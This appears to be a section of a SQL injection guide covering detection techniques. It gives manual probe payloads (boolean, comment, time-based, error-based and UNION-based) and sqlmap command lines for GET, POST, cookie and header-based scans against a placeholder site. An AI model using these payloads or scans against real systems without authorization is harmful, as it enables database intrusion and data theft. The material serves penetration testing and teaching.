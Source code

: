 ## 🔍 Detection Techniques

### 1. 🎯 Manual Detection

#### Basic Injection Tests
```sql
-- Single quote test
'
"
`

-- Numeric tests
1'
1"
1`

-- Boolean tests
1' AND '1'='1
1' AND '1'='2
1 AND 1=1
1 AND 1=2

-- Comment tests
1'--
1'#
1'/*
```

#### Advanced Detection Payloads
```sql
-- Time-based detection
1' AND SLEEP(5)--
1'; WAITFOR DELAY '00:00:05'--
1' AND pg_sleep(5)--

-- Error-based detection
1' AND EXTRACTVALUE(1,CONCAT(0x7e,@@version,0x7e))--
1' AND UPDATEXML(1,CONCAT(0x7e,USER(),0x7e),1)--

-- Union-based detection
1' UNION SELECT null--
1' UNION SELECT null,null--
1' UNION SELECT null,null,null--
```

### 2. 🤖 Automated Detection

#### SQLMap Usage
```bash
# Basic scan
sqlmap -u "http://example.com/page.php?id=1"

# POST request scan
sqlmap -u "http://example.com/login.php" --data="username=admin&password=test"

# Cookie-based scan
sqlmap -u "http://example.com/page.php" --cookie="PHPSESSID=abc123"

# Custom headers
sqlmap -u "http://example.com/api/user/1" -H "Authorization: Bearer token123"

# Batch mode (non-interactive)
sqlmap -u "http://example.com/page.php?id=1" --batch
```